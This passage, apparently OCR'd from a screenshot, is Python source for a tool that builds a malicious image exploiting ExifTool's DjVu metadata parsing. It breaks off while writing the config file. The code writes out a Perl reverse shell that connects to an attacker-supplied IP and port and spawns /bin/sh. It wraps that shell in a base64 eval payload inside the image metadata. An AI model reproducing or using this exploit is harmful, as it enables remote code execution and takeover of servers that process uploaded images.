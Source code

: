 ```python
    if check_djvu == "":
        exit(printGreen("\n[!] djvumake not installed. Install by running command : sudo apt install djvulibre-bin"))
    elif check_exif == "":
            exit(printGreen("\n[!] exiftool not installed. Install by running command : sudo apt install exiftool"))
    elif check_exif == "" and check_djvu == "":
        exit(printGreen("\n[!] djvumake and exiftool not installed. Install by running command : sudo apt install djvulibre-bin exiftool"))
    else:
        return

#generate image
def create_image():
    img = Image.new('RGB', (50, 50), color='blue')
    img.save('payload.jpg')

#build the payload
def gen_payload(ip_address, port):
    payload = b"(metadata \"\c${use MIME::Base64;eval(decode_base64('"
    payload += base64.b64encode( set_shell(ip_address, port).encode() )
    payload += b"'))};\")"
    return payload

#Asign Shell
def set_shell(ip_address, port):
    reverse_shell = f'''use Socket;
			socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));
			if(connect(S,sockaddr_in({port},inet_aton('{ip_address}'))))
			{
				open(STDIN,'>&S');
				open(STDOUT,'>&S');
				open(STDERR,'>&S');
				exec('/bin/sh -i');
			};
			'''
    return reverse_shell

#create payload_file
def gen_payload_file(payload):
    payload_file = open('payload', 'w')
    payload_file.write(payload.decode('utf-8'))
    payload_file.close()

#create config_file
def gen_config_file():
    filename = "configfile"
    content = '''%Image::ExifTool::UserDefined = (
        # All EXIF tags are added to the Main table, and WriteGroup is used to
        # specify where the tag is written (default is ExifIFD if not specified):
        'Image::ExifTool::Exif::Main' => {
            # Example 1.  EXIF:NewEXIFTag
            0xc51b => {
               Name => 'HasselbladExif',
               Writable => 'string',
               WriteGroup => 'IFD0',
            },
            # add more user-defined EXIF tags here...
       },
    );
    1; #end%
    '''
    with open(filename, 'w') as f:
```